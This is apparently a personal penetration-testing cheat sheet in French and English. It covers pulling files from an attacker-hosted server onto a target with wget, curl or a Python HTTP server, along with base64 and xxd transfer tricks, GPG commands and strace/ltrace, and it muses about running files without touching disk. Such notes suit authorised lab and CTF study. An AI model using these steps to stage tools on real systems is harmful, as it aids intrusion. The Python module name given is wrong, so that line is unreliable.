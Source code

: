 * `wget ip:port/path`
  * add `-O destination` if needed, default is current folder & original name 
* `curl ip:port/path`
  * `-s` To not have the banner

Pour les 2 y'a apparemment moyen de direct exécuter le fichier sans l'écrire sur le disque, faudrait que je regarde

### python

* Sur l'attaquant `python -m HttpSimpleServer` \(va créer un serveur dispo sur 8000\)
* Utiliser wget ou curl pour récup un fichier. Le root du serveur est le dossier dans lequel il a été lancé

### Copié-Collé encodé

* En fonction de la taille du fichier ça peut être plus simple de le base64, copier le résultat puis de le décoder et rediriger dans un fichier dans le terminal de destination

## Encoding

### Base64

* `base64 -d <file>` Decode
  * Si on ne veut pas le faire depuis un fichier on peut faire ainsi `echo "..." | base64 -d`

### Hex to bin

* `xxd` Dump a file in hexa
* `echo "FF D8 FF DB" | xxd -r -p > new_file` Convert the hex back to binary and write it in a file
  * `-p` Let you write the hex in a more friendly manner \(without offset, etc\)
  * `-r` Actually does the reverse
  * If you want to add content to that file after the new hex, just do `cat other_file >> new_file`

## GPG

* pgp encoding
* `gpg --gen-key` Generate a key pair with default setting
* `gpg --export <username> > <file>` Export the public key of the user to a file \(binary format\)
  * To export the ascii representation of it, add `--armor`
* `gpg --import <file>` Import public key from file
* `gpg -r <username> --encrypt <file>` Encrypt file using user's public key \(binary format\)
  * To get an ascii file as result, add `--armor`
* `gpg --decrypt <file>` Decrypt file using your private key
* `gpg --list-keys` To see all the imported keys
* `gpg --fingerprint <username>` To get the fingerprint of the user's public key

## Tracing

* `strace` Intercepts system calls made libs to the Linux Kernel
* `ltrace` Intercepts library & system calls made by your application to libs

